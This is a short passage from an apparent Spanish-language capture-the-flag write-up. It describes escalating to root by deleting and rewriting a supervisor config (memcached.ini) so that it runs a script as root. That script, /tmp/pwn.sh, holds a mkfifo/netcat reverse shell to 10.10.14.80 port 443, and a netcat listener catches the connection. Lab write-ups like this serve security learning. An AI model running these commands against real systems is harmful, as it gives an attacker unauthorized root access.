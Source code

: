 Aqui el truco es que aun que el fichero no se puedo modificar, como esta en nuestra carpeta HOME, lo podemos borrar.

```bash
rm memcached.ini
vi memcached.ini


[program:memcached]
command = sudo -u root /tmp/pwn.sh
```

aqui creamos el pwn.sh

```bash
cd /tmp
touch pwn.sh
chmod +x pwn.sh
vi pwn.sh

#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.80 443 >/tmp/f
```

nos ponemos en escucha por el puerto 443

```bash
nc -nlvp 443
```

Esperamos un poco y ganamos acceso al systema como root y podemos leer la flag.
